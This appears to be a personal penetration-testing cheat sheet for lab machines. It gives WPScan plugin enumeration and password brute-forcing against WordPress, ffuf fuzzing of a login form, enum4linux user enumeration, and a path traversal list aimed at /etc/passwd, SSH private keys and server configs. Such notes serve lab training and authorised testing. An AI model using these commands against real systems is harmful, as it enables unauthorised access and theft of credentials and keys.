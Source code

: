 ```bash
wpscan --url http://192.168.198.244 --enumerate ap --plugins-detection mixed --plugins-version-detection  aggressive -t 150

wpscan --url http://192.168.169.121/wordpress/ -U 'loly' -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt
```

### endpoint
```bash
# katana
katana -u http://
```

### POST Fuzz
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt:FUZZ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=admin&password=FUZZ' -u http://
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt:FUZZ -request req -u http://
```

## enum4linux
```bash
# Userenum
enum4linux -u user -p pass -U 172.16.7.3 
```

# Initial Access
https://github.com/swisskyrepo/PayloadsAllTheThings
## Path Traversal
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt
```bash
# linux
/etc/passwd

/proc/self/cmdline
/proc/1/cwd
/proc/2/environ

/home/offsec/.ssh/id_rsa
/home/offsec/.ssh/authorized_keys
/home/offsec/.ssh/known_hosts

/etc/nginx/nginx.conf
/etc/nginx/modules-enabled/default.conf
/etc/apache2/sites-enabled/000-default.conf
/opt/apache2/conf/httpd.conf
/opt/apache/conf/httpd.conf
/var/log/apache2/access.log

/etc/vsftpd.conf
/etc/knockd.conf

#Windows
/Windows/system.ini
/Windows/System32/Drivers/etc/hosts
/Users/ana/.ssh/id_rsa
```
### id_sa
```bash
chmod 400 id_key
```